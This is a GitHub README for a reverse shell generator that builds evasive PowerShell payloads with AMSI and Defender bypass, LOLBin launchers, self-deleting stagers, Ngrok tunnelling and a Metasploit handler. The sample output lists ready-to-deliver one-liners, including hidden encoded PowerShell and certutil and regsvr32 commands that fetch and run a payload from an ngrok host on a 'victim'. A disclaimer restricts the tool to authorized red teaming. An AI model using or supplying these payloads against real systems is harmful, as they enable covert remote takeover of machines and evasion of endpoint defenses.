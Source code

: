 # ultra-stealth-shell
# 🐉 Ultra Stealth Reverse Shell Generator

An advanced, automated reverse shell payload generator built for **authorized red teaming and ethical hacking** engagements.  
It delivers highly evasive PowerShell payloads using:

- 🔐 AMSI Bypass
- 🔁 Base64 Obfuscation
- 🎭 LOLBins (`mshta`, `certutil`, `regsvr32`)
- 🧨 Self-deleting script stagers
- 🚇 Ngrok tunnels for internet delivery
- 🎯 Integrated Metasploit handler

---

## ⚠️ DISCLAIMER

> 🔒 **This tool is for educational use and legal penetration testing only.**  
> 🚫 Unauthorized access to systems you don't own or have explicit permission to test is **illegal**.  
> 🧠 The author is not responsible for any damage or misuse.  
> 🛡️ Use it only in labs, CTFs, or client-approved red team ops.

---

## 📦 Features

| Feature                         | Description |
|----------------------------------|-------------|
| ✅ **Ngrok Integration**         | For NAT/firewall bypass |
| ✅ **MSF Payload Generator**     | Uses `msfvenom` & `msfconsole` |
| ✅ **AMSI & Defender Bypass**   | Using `$amsiInitFailed` |
| ✅ **PowerShell Base64 Launcher** | One-liner payload execution |
| ✅ **LOLBins Support**          | Execute with `mshta`, `certutil`, `regsvr32` |
| ✅ **Auto HTTP Payload Hosting** | Auto-hosts payload via Python web server |
| ✅ **Self-Destruct Payload**     | Deletes after execution |

---

## 🔧 Requirements

Install the following tools (most are pre-installed in Kali Linux):

| Tool            | Install Command                      |
|-----------------|--------------------------------------|
| Python 3        | `sudo apt install python3`           |
| Metasploit      | `sudo apt install metasploit-framework` |
| Ngrok           | [https://ngrok.com/download](https://ngrok.com/download) |
| curl            | `sudo apt install curl`              |

---

## 🔐 Ngrok Setup

1. Go to [https://dashboard.ngrok.com/signup](https://dashboard.ngrok.com/signup)
2. Create a free account and get your **auth token**
3. Authenticate Ngrok:

```bash
ngrok authtoken <your_ngrok_auth_token>
```
4. Test Ngrok:
```bash
ngrok tcp 4444
```
You should see something like:
tcp://0.tcp.ngrok.io:14233

Ngrok is now ready to be used by the script.

🚀 Usage
## 📦 Installation

```bash
git clone https://github.com/<your-username>/ultra-stealth-shell.git
cd ultra-stealth-shell
python3 ultra_stealth_shell.py
```
📥 Output

```bash
[+] Payload selected: windows/meterpreter/reverse_https
[*] Starting Ngrok tunnel...
[+] Ngrok Forwarding: 0.tcp.ngrok.io:14233
[*] Creating stealth PowerShell payload...
[+] Saved stealth PowerShell payload as: payload.ps1

🎯 STEALTH PAYLOADS READY — DELIVER ONE OF THESE TO TARGET:
======================================================================
[🔥 ENV Trick] Save and run payload_launcher.bat on victim
[🔥 Direct PowerShell] powershell -nop -w hidden -enc <base64>
[🔥 mshta (LOLBIN)] mshta.exe "javascript:var sh=new ActiveXObject('WScript.Shell'); sh.Run('<powershell>');close()"
[🔥 certutil] certutil -urlcache -split -f http://0.tcp.ngrok.io:8000/payload.ps1 payload.ps1 && powershell -ExecutionPolicy Bypass -File payload.ps1
[🔥 regsvr32] regsvr32 /s /n /u /i:http://0.tcp.ngrok.io:8000/payload.ps1 scrobj.dll
======================================================================
[+] Hosted script at: http://0.tcp.ngrok.io:8000/payload.ps1
[*] Starting Metasploit handler...
```

